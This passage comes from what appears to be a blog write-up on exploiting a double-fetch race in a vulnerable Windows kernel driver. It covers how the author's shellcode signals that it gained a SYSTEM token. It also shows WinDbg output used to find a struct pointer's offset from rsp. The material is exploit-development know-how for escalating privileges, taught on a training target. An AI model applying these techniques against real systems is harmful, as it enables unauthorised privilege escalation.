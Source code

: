 Then I needed a way to determine if a call to `DeviceIoControl` had triggered the overflow. At first, I wanted to use the return value, I thought my shellcode could set `eax` to something like 2 (because a `BOOL` is really an `int`) but for whatever reason, I never got the value stored in `eax` back as the return value of `DeviceIoControl`. Maybe some wrapper in NTDLL just changed it back to 1/0 to follow specification. NOTE: I realized while writing this blog I should have checked `GetLastError`, ohh well.

My second idea was then to check if I had a `SYSTEM` token. That actually requires a bunch of code (`OpenProcessToken`, `GetTokenInformation`, `AllocateAndInitializeSid`, etc), so it's easier to just call `GetUserNameA` and check for `SYSTEM`. And this worked fine in the PoC above.

My last idea, was to actually write back into the `UserDoubleFetch->Buffer` from the shellcode, and then after every `DeviceIoControl` call, check the `Buffer`. This is better because it saves calling `GetUserNameA` thousands of times. Lets implement this!

## Pass-Back the Result

During `TriggerDoubleFetch` I took note of the `UserDoubleFetch` address (`0x00000034e331f828`) and `UserDoubleFetch->Buffer` address (`0x000002194edf0000`). Then once the exploit reached the shellcode, I needed to find one of these in the registers or on the stack. I managed to find the `UserDoubleFetch` stored on the stack in a couple locations.

```
2: kd> s -q rsp l10000 0x00000034e331f828
ffff818c`82c2fa10  00000034`e331f828 00000000`00000010
ffff818c`82c2fa80  00000034`e331f828 00007ffb`00000010
ffff818c`82c2fc10  00000034`e331f828 00000000`000000e0
```

Now we can find the offset from `rsp`. 

```
2: kd> ? ffff818c`82c2fa10 - rsp
Evaluate expression: 744 = 00000000`000002e8
```

We have a pointer to the `DOUBLE_FETCH` struct. Let's dereference that to get the struct data.

```
2: kd> dq rsp+2e8
ffff818c`82c2fa10  00000034`e331f828 00000000`00000010
```

So ``00000034`e331f828`` holds the struct data. The first element is the `Buffer`, let's check.

```
2: kd> dq 00000034`e331f828
00000034`e331f828  00000219`4edf0000 00000000`000009c4
00000034`e331f838  00000000`00000000 00000000`00000010
```

So the `Buffer` should be at ``00000219`4edf0000``, let's have a look.

```
2: kd> dq 00000219`4edf0000
00000219`4edf0000  61413161`41306141 41346141`33614132
00000219`4edf0010  37614136`61413561 62413961`41386141
00000219`4edf0020  41326241`31624130 35624134`62413362
00000219`4edf0030  62413762`41366241 41306341`39624138
00000219`4edf0040  33634132`63413163 63413563`41346341
```
